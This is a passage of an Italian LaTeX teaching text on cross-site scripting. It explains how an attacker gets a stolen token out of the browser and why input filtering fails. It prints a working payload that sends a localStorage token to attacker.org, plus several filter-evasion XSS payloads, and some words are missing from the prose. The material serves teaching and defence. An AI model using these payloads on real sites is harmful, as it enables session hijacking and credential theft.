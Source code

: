\begin{esempio}{Esfiltrare un token}
Accedere al token o al cookie di sessione è solo metà del lavoro: l'attaccante
deve anche farlo uscire dal browser della vittima. Ci sono vari modi:
reindirizzare la finestra (o un ) a una URL malevola, aggiungere
un'immagine la cui sorgente è una URL malevola, caricare un foglio di stile con
 malevolo.

\begin{affianco}[0.52][c]
\codicepiccolo
\begin{lstlisting}[style=html, name=payload]
<iframe src="javascript:window.location.href =
  `https://attacker.org?token=${localStorage.getItem('token')}`">
</iframe>
\end{lstlisting}
\risultato
\begin{immagine}
\end{immagine}
\end{affianco}
\end{esempio}

\subsection{Perché filtrare non basta}

Un primo istinto è applicare \textbf{filtri} sui dati in ingresso: rimuovere le
occorrenze di  e , o rimuovere qualunque
\code{<} e \code{>}. Sembra ragionevole?

Purtroppo i \textit{payload} XSS possono essere molto più subdoli, ed esistono
tecniche dedicate di \textbf{evasione dei filtri}. Esistono molti altri modi di
iniettare codice JavaScript:

\begin{lstlisting}[style=html, name=evasione.html]
<iframe src="javascript:alert('XSS')">
<iframe src="jav	ascript:alert('XSS')">        <!-- carattere di tabulazione -->
<iframe src="jav&#x09;ascript:alert('XSS')">  <!-- tabulazione codificata -->
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115...">
\end{lstlisting}

